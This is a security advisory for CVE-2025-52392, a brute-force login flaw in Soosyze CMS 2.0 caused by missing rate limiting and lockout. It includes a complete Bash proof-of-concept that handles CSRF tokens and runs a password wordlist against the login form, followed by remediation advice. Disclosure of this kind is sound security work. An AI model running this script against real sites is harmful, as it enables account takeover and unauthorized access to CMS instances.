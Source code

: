 # Brute Force Login Vulnerability in Soosyze CMS 2.0 (CVE-2025-52392)

### Affected Component

`/user/login` endpoint – Authentication Controller

### CWE

[CWE-307: Improper Restriction of Excessive Authentication Attempts](https://cwe.mitre.org/data/definitions/307.html)

### Description

Soosyze CMS 2.0 is vulnerable to a brute-force authentication attack due to missing rate limiting and account lockout mechanisms on the \`/user/login\` endpoint.

An attacker can send unlimited login attempts without any restriction, allowing them to guess user credentials — including administrative accounts — via automated tools.

This issue was confirmed using a custom proof-of-concept script and the `rockyou.txt` wordlist to perform repeated POST requests against the login endpoint with a fixed username and varying passwords. &#x20;

The same result can be reproduced with tools such as **THC Hydra** or **Burp Suite Intruder**. The vulnerability remains unpatched, and no vendor response has been received at the time of publication.

### Impact

An attacker could gain unauthorized access to any account, including administrator accounts, potentially leading to full compromise of the CMS instance.

### Proof of Concept (PoC)

#### Overview

The following PoC demonstrates a brute-force authentication vulnerability in **Soosyze CMS 2.0** at the `/user/login` endpoint.\
The issue is caused by **missing rate limiting and account lockout mechanisms**, allowing an attacker to try unlimited password guesses.

#### Steps to Reproduce

1. Deploy or access a Soosyze CMS 2.0 instance.
2. Identify a valid username or email address (`test@test.com` in this example).
3. Prepare a password wordlist (e.g., `rockyou.txt`).
4. Execute the provided Bash script to perform automated login attempts.

#### PoC Script

```bash
#!/usr/bin/env bash
# Author: Beatriz Fresno Naumova (@beafn28)
# Usage:
#   ./script.sh [wordlist.txt]
# If no wordlist is provided, a dictionary will be used.

set -euo pipefail

BASE_URL="http://localhost:8000"
LOGIN_PATH="/user/login"
EMAIL_FIELD="email"
PASS_FIELD="password"
TARGET_EMAIL="test@test.com"

WORDLIST_FILE="${1:-}"
DEFAULT_WORDS=("123456" "admin" "password" "qwerty" "letmein" "admin123" "password1")

form_url="$BASE_URL$LOGIN_PATH"
COOKIE_JAR="$(mktemp)"

get_form() {
    curl -sS -c "$COOKIE_JAR" -b "$COOKIE_JAR" "$form_url" > /tmp/login_page.html
}

extract_token() {
    local name value
    name=$(sed -nE 's/.*name="([_a-zA-Z0-9:-]*(token|csrf)[_a-zA-Z0-9:-]*)".*type="hidden".*/\1/p' /tmp/login_page.html | head -n1 || true)
    value=""
    if [[ -n "$name" ]]; then
        value=$(sed -nE "s/.*name=\"$name\".*value=\"([^\"]*)\".*/\1/p" /tmp/login_page.html | head -n1 || true)
    fi
    printf '%s\t%s\n' "$name" "$value"
}

post_login() {
    local pass="$1" tname="$2" tval="$3"
    curl -sS -o /tmp/resp.html -w "%{http_code}" \
        -c "$COOKIE_JAR" -b "$COOKIE_JAR" \
        -X POST "$form_url" \
        -H "Content-Type: application/x-www-form-urlencoded" \
        -H "Origin: $BASE_URL" -H "Referer: $form_url" \
        --data-urlencode "$EMAIL_FIELD=$TARGET_EMAIL" \
        --data-urlencode "$PASS_FIELD=$pass" \
        $( [[ -n "$tname" && -n "$tval" ]] && printf -- '--data-urlencode %s=%s' "$tname" "$tval" )
}

echo "[*] Starting brute-force attack on $form_url"
[[ -n "$WORDLIST_FILE" && -r "$WORDLIST_FILE" ]] && mapfile -t words < "$WORDLIST_FILE" || words=("${DEFAULT_WORDS[@]}")

i=0
for pw in "${words[@]}"; do
    i=$((i+1))
    get_form
    IFS=$'\t' read -r TOKEN_NAME TOKEN_VALUE < <(extract_token)
    code=$(post_login "$pw" "$TOKEN_NAME" "$TOKEN_VALUE")

    if grep -q '"redirect"' /tmp/resp.html; then
        echo -e "[$i] Password found: '\e[1m$pw\e[0m' (HTTP $code)"
        break
    else
        echo "[$i] '$pw' (HTTP $code)"
    fi

    sleep 0.$((RANDOM%9+1))
done

rm -f "$COOKIE_JAR" /tmp/resp.html
```

#### Execution example

```
./poc.sh rockyou.txt
```

<figure><img src="../.gitbook/assets/image (1679).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/Captura de pantalla 2025-08-12 a las 21.12.29.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/Captura de pantalla 2025-08-12 a las 21.12.40 (1).png" alt=""><figcaption></figcaption></figure>

### Remediation

* Implement rate limiting (e.g., limit failed login attempts to 5 per minute per IP).
* Introduce account lockout after repeated failed login attempts.
* Consider adding CAPTCHA after several failed attempts.

### Discoverer

Beatriz Fresno Naumova (@beafn28)

### References

* CVE: [CVE-2025-52392](https://www.cve.org/CVERecord?id=CVE-2025-52392)
